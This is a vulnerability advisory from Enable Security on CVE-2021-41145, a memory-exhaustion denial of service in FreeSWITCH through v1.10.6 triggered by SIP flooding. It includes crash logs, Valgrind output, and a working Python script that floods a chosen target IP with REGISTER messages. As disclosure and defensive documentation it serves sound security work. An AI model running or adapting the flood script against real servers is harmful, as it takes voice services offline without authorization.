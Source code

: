 # FreeSWITCH susceptible to Denial of Service via SIP flooding

- Fixed versions: v1.10.7
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-06-freeswitch-flood-dos
- Vendor Security Advisory: https://github.com/signalwire/freeswitch/security/advisories/GHSA-jvpq-23v4-gp3m
- Other references: CVE-2021-41145
- Tested vulnerable versions: <= v1.10.6
- Timeline:
    - Report date: 2021-05-28
    - Triaged: 2021-06-18
    - Fix provided for testing: 2021-10-08
    - Second fix provided for testing: 2021-10-13
    - Vendor release with fix: 2021-10-24
    - Enable Security advisory: 2021-10-25

## Description

When flooding FreeSWITCH with SIP messages, it was observed that after a number of seconds the process was killed by the operating system due to memory exhaustion. The following excerpt from syslog shows one such instance:

```
May 25 15:19:30 ubuntu-bionic kernel: [ 4205.446584] Out of memory: Kill process 22590 (freeswitch) score 939 or sacrifice child
May 25 15:19:30 ubuntu-bionic kernel: [ 4205.449845] Killed process 22590 (freeswitch) total-vm:10484768kB, anon-rss:7894136kB, file-rss:0kB, shmem-rss:0kB
May 25 15:19:30 ubuntu-bionic kernel: [ 4205.720680] oom_reaper: reaped process 22590 (freeswitch), now anon-rss:0kB, file-rss:0kB, shmem-rss:0kB
```

The tests were carried out using the SIP messages REGISTER, SUBSCRIBE, NOTIFY, PUBLISH, MESSAGE, INVITE and OPTIONS. On a machine with 8 gigabytes of RAM, the FreeSWITCH process crashed after 90 seconds of flooding with the SIP message REGISTER.

![Memory consumption over time during SIP flood attack against FreeSWITCH](memory-usage.png)

When FreeSWITCH was run using [Valgrind](https://valgrind.org/), it was reported that large chunks of memory were being allocated in functions from the Sofia-SIP library source file `su_alloc.c`. Valgrind was executed with the flag `--leak-check=full` in order to get a detailed report of potential memory leaks. The target was flooded for a few seconds and then FreeSWITCH was gracefully terminated. The following is an excerpt from the report which identified large numbers of memory allocations in the function `su_home_new` in `su_alloc.c`:

```
2021-05-25 15:23:48.870010 [CONSOLE] switch_core_memory.c:671 Stopping memory pool queue.
==401426== 
==401426== HEAP SUMMARY:
==401426==     in use at exit: 26,039,233 bytes in 87,160 blocks
==401426==   total heap usage: 7,195,625 allocs, 7,108,465 frees, 986,221,122 bytes allocated
==401426== 
...
==401426== 25,718,877 (368 direct, 25,718,509 indirect) bytes in 1 blocks are 
            definitely lost in loss record 367 of 367
==401426==    at 0x483DD99: calloc (in /.../vgpreload_memcheck-amd64-linux.so)
==401426==    by 0x5422B57: su_home_new (su_alloc.c:569)
==401426==    by 0x53AFB16: nua_create (nua.c:146)
==401426==    by 0xA44D4B1: ???
==401426==    by 0x4C054EF: dummy_worker (thread.c:151)
==401426==    by 0x4D19608: start_thread (pthread_create.c:477)
==401426==    by 0x4E55292: clone (clone.S:95)
==401426== 
==401426== LEAK SUMMARY:
==401426==    definitely lost: 3,688 bytes in 35 blocks
==401426==    indirectly lost: 25,728,877 bytes in 86,737 blocks
==401426==      possibly lost: 133,576 bytes in 40 blocks
==401426==    still reachable: 173,092 bytes in 348 blocks
```


## Impact

By abusing this vulnerability, an attacker is able to crash any FreeSWITCH instance by flooding it with SIP messages, leading to Denial of Service. The attack does not require authentication and can be carried out over UDP, TCP or TLS.

## How to reproduce the issue

1. Build FreeSWITCH from source and install it
2. Run FreeSWITCH with the default configuration
3. Save the following Python script as `freeswitch-sipflood.py`

    ```python
    import socket, string, random, sys
    
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    cseq = 1
    UDP_IP = sys.argv[1]
    UDP_PORT = 5060
    
    while True:
        r = ''.join(random.choice(string.ascii_lowercase) for i in range(10))
    
        msg = "REGISTER sip:%s SIP/2.0\r\n" % (UDP_IP, )
        msg += "Via: SIP/2.0/UDP 127.0.0.1:46786;rport;branch=z9hG4bK-%s\r\n" % (r, )
        msg += "Max-Forwards: 70\r\n"
        msg += "From: <sip:98647499@%s>;tag=%s\r\n" % (UDP_IP, r, )
        msg += "To: <sip:98647499@%s>\r\n" % (UDP_IP, )
        msg += "Call-ID: %s\r\n" % (r, )
        msg += "CSeq: %s REGISTER\r\n" % (cseq, )
        msg += "Contact: <sip:98647499@%s:46786;transport=udp>\r\n" % (UDP_IP, )
        msg += "Expires: 60\r\n"
        msg += "Content-Length: 0\r\n"
        msg += "\r\n" 
    
        sock.sendto(msg.encode(), (UDP_IP, UDP_PORT))
    
        cseq += 1
    ```
4. Run the Python script and specify the target IP as the first command line parameter:

    ```bash
    python freeswitch-sipflood.py <target_ip>
    ```
5. Notice that the memory consumption of FreeSWITCH increases rapidly over time, until FreeSWITCH is killed by the underlying operating system

Note that in some cases where the test machine under attack has more memory resources, the attack done over UDP may not succeed in consuming all system memory. During our testing with SIPVicious PRO, however, we could always get the process to consume all the system's memory when the attack is done cover TCP.

## Solution and recommendations

Upgrade to a version of FreeSWITCH that fixes this issue.

Our suggestion to the FreeSWITCH developers was the following:

> Our recommendation for FreeSWITCH developers is to review the code handling memory allocation and apply changes to address this issue. At Enable Security we're happy to test potential fixes for this issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

